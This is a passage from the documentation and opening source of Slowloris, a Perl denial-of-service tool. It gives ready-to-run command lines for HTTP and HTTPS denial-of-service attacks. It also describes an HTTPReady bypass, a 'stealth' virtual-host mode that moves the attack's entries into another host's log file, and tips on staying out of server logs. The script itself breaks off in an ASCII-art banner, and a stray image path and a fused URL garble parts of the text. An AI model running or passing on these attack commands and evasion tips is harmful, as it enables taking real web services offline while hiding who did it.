 window 2000 seconds and increase the TCP timeout to 5 seconds.  The following example uses 500 sockets.  Most average Apache servers, for instance, tend to fall down between 400-600 sockets with a default configuration.  Some are less than 300.  The smaller the timeout the faster you will consume all the available resources as other sockets that are in use become available - this would be solved by threading, but that's for a future revision.  The closer you can get to the exact number of sockets, the better, because that will reduce the amount of tries (and associated bandwidth) that Slowloris will make to be successful.  Slowloris has no way to identify if it's successful or not though.  =head3 HTTP DoS Example:  ./slowloris.pl -dns www.example.com -port 80 -timeout 2000 -num 500 -tcpto 5  =head2 HTTPReady Bypass  HTTPReady only follows certain rules so with a switch Slowloris can bypass HTTPReady by sending the attack as a POST verses a GET or HEAD request with the -httpready switch.   =head3 HTTPReady Bypass Example  ./slowloris.pl -dns www.example.com -port 80 -timeout 2000 -num 500 -tcpto 5 -httpready  =head2 Stealth Host DoS  If you know the server has multiple webservers running on it in virtual hosts, you can send the attack to a seperate virtual host using the -shost variable.  This way the logs that are created will go to a different virtual host log file, but only if they are kept separately.  =head3 Stealth Host DoS Example:  ./slowloris.pl -dns www.example.com -port 80 -timeout 30 -num 500 -tcpto 1 -shost www.virtualhost.com  =head2 HTTPS DoS  Slowloris does support SSL/TLS on an experimental basis with the -https switch.  The usefulness of this particular option has not been thoroughly tested, and in fact has not proved to be particularly effective in the very few tests I performed during the early phases of development.  Your mileage may vary.  =head3 HTTPS DoS Example:  ./slowloris.pl -dns www.example.com -port 443 -timeout 30 -num 500 -https  =head2 HTTP Cache  Slowloris does support cache avoidance on an experimental basis with the -cache switch.  Some caching servers may look at the request path part of the header, but by sending different requests each time you can abuse more resources.  The usefulness of this particular option has not been thoroughly tested.  Your mileage may vary.  =head3 HTTP Cache Example:  ./slowloris.pl -dns www.example.com -port 80 -timeout 30 -num 500 -cache  =head1 Issues  Slowloris is known to not work on several servers found in the NOT AFFECTED section above and through Netscalar devices, in it's current incarnation.  They may be ways around this, but not in this version at this time.  Most likely most anti-DDoS and load balancers won't be thwarted by Slowloris, unless Slowloris is extremely distrubted, although only Netscalar has been tested.   Slowloris isn't completely quiet either, because it can't be.  Firstly, it does send out quite a few packets (although far far less than a typical GET request flooder).  So it's not invisible if the traffic to the site is typically fairly low.  On higher traffic sites it will unlikely that it is noticed in the log files - although you may have trouble taking down a larger site with just one machine, depending on their architecture.  For some reason Slowloris works way better if run from a *Nix box than from Windows.  I would guess that it's probably to do with the fact that Windows limits the amount of open sockets you can have at once to a fairly small number.  If you find that you can't open any more ports than ~130 or so on any server you test - you're probably running into this "feature" of modern operating systems.  Either way, this program seems to work best if run from FreeBSD.    Once you stop the DoS all the sockets will naturally close with a flurry of RST and FIN packets, at which time the web server or proxy server will write to it's logs with a lot of 400 (Bad Request) errors.  So while the sockets remain open, you won't be in the logs, but once the sockets close you'll have quite a few entries all lined up next to one another.  You will probably be easy to find if anyone is looking at their logs at that point - although the DoS will be over by that point too.  =head1 What is a slow loris?  What exactly is a slow loris?  It's an extremely cute but endangered mammal that happens to also be poisonous.  Check this out:  http://www.youtube.com/watch?v=rLdQ3UhLoD4#!/usr/bin/perl -w use strict; use IO::Socket::INET; use IO::Socket::SSL; use Getopt::Long; use Config;  $SIG{'PIPE'} = 'IGNORE';    #Ignore broken pipe errors  print &lt;&lt;EOTEXT; CCCCCCCCCCOOCCOOOOO888\@8\@8888OOOOCCOOO888888888\@\@\@\@\@\@\@\@\@8\@8\@\@\@\@888OOCooocccc:::: CCCCCCCCCCCCCCCOO888\@888888OOOCCCOOOO888888888888\@88888\@\@\@\@\@\@\@888\@8OOCCoococc::: CCCCCCCCCCCCCCOO88\@\@888888OOOOOOOOOO8888888O88888888O8O8OOO8888\@88\@\@8OOCOOOCoc:: CCCCooooooCCCO88\@\@8\@88\@888OOOOOOO88888888888OOOOOOOOOOCCCCCOOOO888\@8888OOOCc:::: CooCoCoooCCCO8\@88\@8888888OOO888888888888888888OOOOCCCooooooooCCOOO8888888Cocooc: ooooooCoCCC88\@88888\@888OO8888888888888888O8O8888OOCCCooooccccccCOOOO88\@888OCoccc ooooCCOO8O888888888\@88O8OO88888OO888O8888OOOO88888OCocoococ::ccooCOO8O888888Cooo oCCCCCCO8OOOCCCOO88\@88OOOOOO8888O888OOOOOCOO88888O8OOOCooCocc:::coCOOO888888OOCC oCCCCCOOO88OCooCO88\@8OOOOOO88O888888OOCCCCoCOOO8888OOOOOOOCoc::::coCOOOO888O88OC oCCCCOO88OOCCCCOO8\@\@8OOCOOOOO8888888OoocccccoCO8O8OO88OOOOOCc.:ccooCCOOOO88888OO CCCOOOO88OOCCOOO8\@888OOCCoooCOO8888Ooc::...::coOO88888O888OOo:cocooCCCCOOOOOO88O CCCOO88888OOCOO8\@\@888OCcc:::cCOO888Oc..... ....cCOOOOOOOOOOOc.:cooooCCCOOOOOOOOO OOOOOO88888OOOO8\@8\@8Ooc:.:...cOO8O88c.      .  .coOOO888OOOOCoooooccoCOOOOOCOOOO OOOOO888\@8\@88888888Oo:. .  ...cO888Oc..          :oOOOOOOOOOCCoocooCoCoCOOOOOOOO COOO888\@88888888888Oo:.       .O8888C:  .oCOo.  ...cCCCOOOoooooocccooooooooCCCOO CCCCOO888888O888888Oo. .o8Oo. .cO88Oo: